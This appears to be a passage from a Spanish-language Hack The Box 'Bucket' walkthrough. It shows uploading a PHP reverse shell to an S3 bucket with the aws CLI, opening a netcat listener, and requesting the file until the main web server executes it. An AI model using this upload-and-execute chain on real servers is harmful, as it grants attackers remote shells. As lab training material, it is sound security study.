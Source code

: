 Acá (como casi siempre) estuve full perdido ): Ya que nuestro objetivo inicial es subir un archivo que nos genere una reverse Shell, pero no entendía como debía ser el proceso, así que preferí buscar ayuda. [@TazWake](https://www.hackthebox.eu/profile/49335) me redirecciono y a la vez me enseño a pensar fuera de la caja (como le dice la gente):

El tema es que la subida del archivo está perfecto, en nuestro caso subiremos el famoso [reverse Shell de monkeypentest](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) para que apenas lo ejecutemos obtengamos la Shell. Peeeeero acá es donde toca "testear" o "pensar fuera de la caja", ya que si tenemos un servidor principal (`http://bucket.htb/`) y otro donde está el bucket (`http://s3.bucket.htb/adserver/`) podríamos probar a subir el archivo y revisar el servidor por si también de alguna forma se está guardando por ahí.

Así que si inicialmente subimos el archivo `ejejerev.php`, ya con nuestra IP y PUERTO modificado:

```bash
–» aws --endpoint-url=http://s3.bucket.htb s3 cp ejejerev.php s3://adserver/images/
upload: ./ejejerev.php to s3://adserver/images/ejejerev.php
```

Nos ponemos en escucha, en mi caso por el puerto `4433`:

```bash
–» nc -nlvp 4433
listening on [any] 4433 ...
```

Probamos desde consola hacer una petición hacia el archivo:

```bash
–» curl -s http://s3.bucket.htb/adserver/images/ejejerev.php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
...
```

Claramente no es ejecutado... Pero ¿Y si probamos con el servidor principal?

```bash
–» curl -s http://bucket.htb/adserver/images/ejejerev.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at bucket.htb Port 80</address>
</body></html>
```

Y con solo la carpeta `/images/`?

```bash
–» curl -s http://bucket.htb/images/ejejerev.php
```

![283bash_bucketHTB_revsh](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bucket/283bash_bucketHTB_revsh.png)

